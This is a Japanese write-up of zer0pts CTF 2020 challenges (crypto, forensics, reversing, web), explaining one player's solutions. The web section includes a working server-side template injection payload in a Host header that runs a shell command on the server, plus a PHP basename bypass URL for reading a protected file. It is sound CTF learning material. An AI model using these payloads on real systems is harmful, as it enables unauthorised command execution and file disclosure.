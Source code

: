 ```yaml
---
title: "zer0pts_2020_writeup"
date: 2020-03-10T15:47:42+09:00
---
```


ソロでチーム"helix"として参加した。1909 点を獲得し、順位は 43 位だった。

## crypto

### ROR

以下のソースコードとその実行結果が渡される。

```python
import random
from secret import flag

ror = lambda x, l, b: (x >> l) | ((x & ((1<<l)-1)) << (b-l))

N = 1
for base in [2, 3, 7]:
    N *= pow(base, random.randint(123, 456))
e = random.randint(271828, 314159)

m = int.from_bytes(flag, byteorder='big')
assert m.bit_length() < N.bit_length()

for i in range(m.bit_length()):
    print(pow(ror(m, i, m.bit_length()), e, N))
```

まず、最終行の`ror`が何をしているのか調べる。バイト列、数値、長さを渡しているように見えるので試しに適当な値を与えてみる。

```python
>>> ror = lambda x, l, b: (x >> l) | ((x & ((1<<l)-1)) << (b-l))
>>> b = 0b00100111
>>> for i in range(8):
...   print(format(ror(b, i, 8), '08b'))
...
00100111
10010011
11001001
11100100
01110010
00111001
10011100
01001110
```

この結果より第2引数で指定された数だけ右にローテーションしていることがわかる。

また、いろいろ試していると暗号化する前と後で奇数と偶数の変化が起こらないことに気づいた。
よってローテーションしながら暗号化していることを利用し、一つ一つ奇数か偶数かを集めていくとフラグを入手できる。

```python
from binascii import unhexlify

with open("log.txt", "r") as f:
  lines = f.readlines()

r = ""
for line in lines:
  if int(line) % 2 == 0:
    r += '0'
  else:
    r += '1'

print(unhexlify(format(int(r), 'x')))
```

## forensics

### Locked KitKat

Android のイメージファイルが渡されるので、パターンロックを解除してねという問題。
Google先生に聞き以下のツールを見つけた。

https://github.com/sch3m4/androidpatternlock

このツールに`/data/system/gesture.key`というファイルを食わせるとクラックしてくれるので、ターミナルにて実行。フラグが入手できた。


## others
コピペ問題

### Welcome
自明

### Survey
自明

## pwn

### hipwn

忘却。半分寝ている状態で解いていたのでメモが残っていなかった。

## reversing

### vmlog

Brainf*ck似のプログラムとその実行結果、及びプログラムを実行するためのPythonスクリプトが渡された。

試しに実行してみると文字入力を求められるので、実行結果はフラグを入力した際のものであると考えた。

同じ文字を同じ順番で入力すれば常に同じ出力が得られるので、総当りするスクリプトを実行するとフラグが入手できた。

```python
from pwn import *
context.log_level = 'error'

letters = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_+!?{}"


def try(candidate, log):
  p = process(("python", "./vm.py"))
  p.recvline() # M+s
  p.recvline() # [0,
  p.recvline() # [46
  p.sendline(candidate)
  for i in range(len(candidate)):
    line = p.recvline().decode()
    if line != log[i]:
      p.kill()
      return False
  p.kill()
  return True

def read_log():
  with open("log.txt", "r") as f:
    log = [i for i in f.readlines()]
  return log

def main():
  candidate = ""
  log = read_log()
  while True:
    for c in letters:
      if try(candidate + c, log):
        candidate += c
        print(f"[+] Found: {candidate}")
        break

main()
```

### QR Puzzle

鍵と暗号化されたQRコード、及び暗号化するプログラムが渡された。

プログラムの処理を読んでみると鍵ファイルの内容に従って特定のピクセルを入れ替えていた。

そこで、鍵ファイルの上下を逆にしそのまま鍵ファイルとしてプログラムに渡すと無事にQRコードが復号できた。


## web

### notepad

渡されたソースコードの以下の部分に脆弱性があった。

```python
@app.errorhandler(404)
def page_not_found(error):
    """ Automatically go back when page is not found """
    referrer = flask.request.headers.get("Referer")

    if referrer is None: referrer = '/'
    if not valid_url(referrer): referrer = '/'

    html = '<html><head><meta http-equiv="Refresh" content="3;URL={}"><title>404 Not Found</title></head><body>Page not found. Redirecting...</body></html>'.format(referrer)

    return flask.render_template_string(html), 404
```

404ページを返すときにリファラーの値を直接組み込んでいるので、ここでSSTIが行える。

しかしリファラーの値は以下の`valid_url`関数によってバリデーションが行われるため、ホスト部分を除き16文字を超えたものについては受け入れられない。

```python
def valid_url(url):
    """ Check if given url is valid """
    host = flask.request.host_url

    if not url.startswith(host): return False  # Not from my server
    if len(url) - len(host) > 16: return False # Referer may be also 404

    return True
```

この先の部分が想定解と異なっていた。

ホスト部分についてはヘッダと同値であるかのチェックしか行われないので、そこにSSTIを仕込めると考えた。

そこでヘッダを以下のように設定し、リクエストを送ったところフラグが入手できた。

```python
Host: {{"".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen'].('cat flag').read()}}
```


### Can you guess it?

渡されたソースコードの以下の部分に脆弱性があった。

```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```

`basename`関数はlocaleの設定を適切にしていなければマルチバイト文字に対して正常に動作しない。

つまり1行目の正規表現にマッチし、かつマルチバイト文字で終わる以下のようなURLでアクセスすればフラグを入手できた。

```
http://<CENSORED>/index.php/config.php/ほげ?source
```
